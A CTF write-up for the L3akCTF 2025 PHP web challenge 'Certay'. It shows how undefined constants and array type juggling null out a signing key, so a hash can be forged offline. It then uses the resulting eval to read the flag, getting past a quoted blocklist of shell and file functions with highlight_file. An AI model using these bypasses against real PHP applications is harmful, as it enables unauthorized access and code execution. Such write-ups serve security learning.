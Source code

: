 ```yaml
---
title: L3akCTF 2025 - Certay
date: 2025-07-28
lastmod: 2025-07-28T19:59:34+02:00
categories:
  - writeup
  - L3akCTF25
tags:
  - web
  - php
  - medium
authors:
  - Valenter
---
```

A mixture of variable confusion, type juggling and broken crypto, let's take a look.
## Examining the vulnerability

We have a few different files at our disposal, but the only one we care about is `dashboard.php`.

There are a few glaring issues with the code that stand out at a glance

```php
define('yek', $_SESSION['yek']);          
...
if (!isset($_SESSION['yek'])) {           
    $_SESSION['yek'] = openssl_random_pseudo_bytes(
        openssl_cipher_iv_length('aes-256-cbc')
    );
}
```
At first, this could seem like it spells disaster for us, if it wasn't for the fact that `yek` isn't actually used in the code:

```php
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash'])
```
This `custom_sign` function takes in `$yek` instead, which is **undefined**.

Likewise, `safe_sign` uses `iv`, which is also undefined, this causes PHP to take 'iv' as a literal instead
```php
function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}
```
(*Note: this behavior has been deprecated in recent versions*)

KEY is hard-coded in `config.php`, but we don't really care about that.

Why?

## The exploit

We can use PHP type juggling to input the key parameter as an **array** instead of a string:

```php
dashboard.php?key[]=foo
```

This makes `safe_sign` return NULL, which in turn grants us the ability to fully manipulate `custom_sign`:

```php
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === custom_sign($_GET['msg'], NULL, NULL)
```
This is equivalent to

```php
openssl_encrypt($msg, 'aes-256-cbc', NULL, 0, NULL)
```
We can therefore calculate the hash offline for a specific message and use it, along with said message, to access this part of the code:
```php
        echo "<div class='success'>Wow! Hello buddy I know you! Here is your secret files:</div>";
        $stmt = $db->prepare("SELECT content FROM notes WHERE user_id = ?");
        $stmt->execute([$_SESSION['user_id']]);
        $notes = $stmt->fetchAll(PDO::FETCH_ASSOC);
        if (!$notes) {
            echo "<p>Nothing here.</p>";
        } else {
            foreach ($notes as $note) {
                $content = $note['content'];
                if (strpos($content, '`') !== false) {
                    echo 'You are a betrayer!';
                    continue;
                }
                $isBetrayal = false;
                foreach ($dangerous as $func) {
                    if (preg_match('/\b' . preg_quote($func, '/') . '\s*\(/i', $content)) {
                        $isBetrayal = true;
                        break;
                    }
                }
                if ($isBetrayal) {
                    echo 'You are a betrayer!';
                    continue;
                }
                try {
                    eval($content);
                } catch (Throwable $e) {
                    echo "<pre class='error'>Eval error: "
                    . htmlspecialchars($e->getMessage())
                    . "</pre>";
                }
            }
        }
```
But we still have to bypass the blocklist:
```php
$dangerous = [
'exec', 'shell_exec', 'system', 'passthru', 'proc_open', 'popen', '$', '`',
'curl_exec', 'curl_multi_exec', 'eval', 'assert', 'create_function',
'include', 'include_once', 'require', 'require_once', "file_get_contents",
'readfile', 'fopen', 'fwrite', 'fclose', 'unlink', 'rmdir',
'copy', 'rename', 'chmod', 'chown', 'chgrp', 'touch', 'mkdir',
'rmdir', 'fseek', 'fread', 'fgets', 'fgetcsv',
'file_put_contents', 'stream_get_contents', 'stream_copy_to_stream',
'stream_get_line', 'stream_set_blocking', 'stream_set_timeout',
'stream_select', 'stream_socket_client', 'stream_socket_server',
'stream_socket_accept', 'stream_socket_recvfrom', 'stream_socket_sendto',
'stream_socket_get_name', 'stream_socket_pair', 'stream_context_create',
'stream_context_set_option', 'stream_context_get_options'
];
```
But that's easy enough: `highlight_file('/tmp/flag.txt');` will do.

## Putting it all together

Let's compute the hash for message `testmessage` offline:
```php
<?php
$msg  = 'testmessage';                     // scegli tu
$hash = openssl_encrypt('testmessage', 'aes-256-cbc', NULL, 0, NULL);
echo $hash;                        
?>
```

`E/fVzDJCHnsOolo60416CQ==`

The final payload thus becomes:

```php
`dashboard.php?key[]=foo&msg=testmessage&hash=E/fVzDJCHnsOolo60416CQ==`
```

```php
`highlight_file('/tmp/flag.txt');`
```

**`L3AK{N0t_4_5ecret_4nYm0r3333!!5215kgfr5s85z9}`**